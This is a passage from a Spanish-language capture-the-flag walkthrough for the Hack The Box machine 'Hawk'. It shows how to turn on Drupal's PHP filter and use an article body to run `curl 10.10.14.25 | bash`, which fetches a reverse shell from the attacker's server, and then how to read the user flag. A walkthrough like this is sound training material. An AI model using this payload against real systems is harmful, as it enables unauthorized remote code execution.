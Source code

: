 
Sabiendo que Drupal usa PHP podemos inyectar código a través de la creación de un artículo. Antes que nada debemos acceder al menú de la barra superior `Modules` y activar la casilla de `PHP filter` y aplicar configuración

<img src="/assets/HTB/Hawk/php.png">

Procedemos a crear un artículo incluyendo el código en PHP `<?php system("curl 10.10.14.25 | bash"); ?>` en el body. En la máquina atacante creamos un archivo `index.htm` con el onliner de bash para entablar una reverse shell, levantamos el servidor HTTP en el mismo directorio de trabajo y en una consola a parte nos ponermos en escucha en el puerto 443. Posteriormente clickamos `preview` en el artículo para ganar acceso a la máquina víctima

<img src="/assets/HTB/Hawk/phpcode.png">

<img src="/assets/HTB/Hawk/shell.png">

En el directorio personal del usuario `daniel` ecnontramos la flag de usuario

```bash
www-data@hawk:/home/daniel$ cat user.txt 
1f606deaded66babf***************
```

### Movimiento Lateral

* * *
